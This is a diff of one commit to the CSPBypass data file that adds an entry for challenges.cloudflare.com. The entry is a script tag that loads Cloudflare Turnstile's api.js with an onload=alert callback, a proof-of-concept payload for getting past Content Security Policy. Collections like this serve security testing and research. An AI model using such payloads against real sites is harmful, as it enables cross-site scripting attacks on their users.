

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added challenges.cloudflare.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 52: challenges.cloudflare.com | <script src="https://challenges.cloudflare.com/turnstile/v0/api.js?onload=alert"></script>
```
